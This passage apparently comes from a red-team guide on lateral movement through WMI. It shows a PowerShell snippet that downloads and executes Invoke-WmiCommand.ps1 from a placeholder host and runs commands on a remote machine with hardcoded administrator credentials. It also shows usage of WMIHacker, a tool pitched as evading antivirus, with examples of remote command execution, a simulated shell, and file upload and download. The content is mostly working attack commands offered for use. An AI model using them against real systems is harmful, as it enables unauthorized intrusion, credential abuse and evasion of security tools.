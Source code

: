 ```powershell
# Remotely load the Invoke-WmiCommand.ps1 script
IEX(New-Object Net.Webclient).DownloadString('http://IP:Port/Invoke-WmiCommand.ps1')
# Specify the remote system username
$User = "HACK-MY\Administrator"
# Specify the user's password
$Password = ConvertTo-SecureString -String "H3rmesk1t@2023" -AsPlainText -Force
# Integrate username and password to import Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
# Specify the IP of the remote host and the command to be executed
$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName "10.10.10.19"
# Execute echo
$Remote.PayloadOutput
```

### WMIHacker

Execute remote command without killing,
Common `WMIEXEC` and `PSEXEC` commands are to create a service or call `Win32_Process.create` to execute commands. These methods have been intercepted by soft-killing. `WMIHacker` is a tool for remote host connection. Command execution is performed through port `135` and no `445` port is required for file transfer.

The execution modes include `/cmd`, `/shell`, `/upload`, and `/download`, respectively, refer to executing commands, simulating `Shell`, uploading files, and downloading files.

```powershell
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__ ____ ______ _ _______ __________ ________
\ \ / / \/ |_ _| | | | | | | /\ / ____| |/ / ____| ___ \
 \ \ /\ / /| \ / | | | | | | | |__| | / \ | | | | ' /| |__ | |__) |
  \ \/ \/ ​​/ | |\/| | | | | | | __ | / /\ \| | | < | __| | _ /
   \ /\ / | | | | |_| |_ | | | | | | | |/ _____ \ |____| . \| |_____| | \ \
    \/ \/ ​​|_| |_|______| |_| |_/_/ \_\_____|___|\______| \_\
                              v0.6beta By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs /cmd host user pass command GETRES?
        WMIHACKER.vbs /shell host user pass
        WMIHACKER.vbs /upload host user pass localpath remotepath
        WMIHACKER.vbs /download host user pass localpath remotepath

          /cmd single command mode
          host hostname or IP address
          GETRES? Res Need Or Not, Use 1 Or 0
          command the command to run on remote host
```

```powershell
# There is a command echo execution method
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1

# No command echo
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0

# Simulate Shell Mode
cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!"

# File Upload - Copy the native calc.exe to the remote host c:\calc.exe
cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"

# File download - Download remote host calc.exe to local c:\calc.exe
cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe"
```